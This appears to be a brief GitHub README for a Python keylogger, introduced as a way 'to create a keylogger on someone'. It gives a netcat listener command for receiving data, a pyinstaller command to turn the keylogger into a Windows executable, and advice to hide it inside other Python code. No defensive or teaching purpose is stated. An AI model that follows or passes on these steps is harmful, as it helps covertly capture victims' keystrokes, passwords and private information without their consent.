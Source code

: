 # keyLogger

To create a keylogger on someone

create a netcat listener
```
nc -lnvp 4444
```
and depends on how you do it

either turn the keylogger python into a EXE file (for windows)

```
pyinstaller --onefile keylogger.py.
```

Or just embedd it in a python code file in a way which is hidden (well obviously)

Twitter https://x.com/HaithamCode
Reddit https://www.reddit.com/user/haithamaljabbari
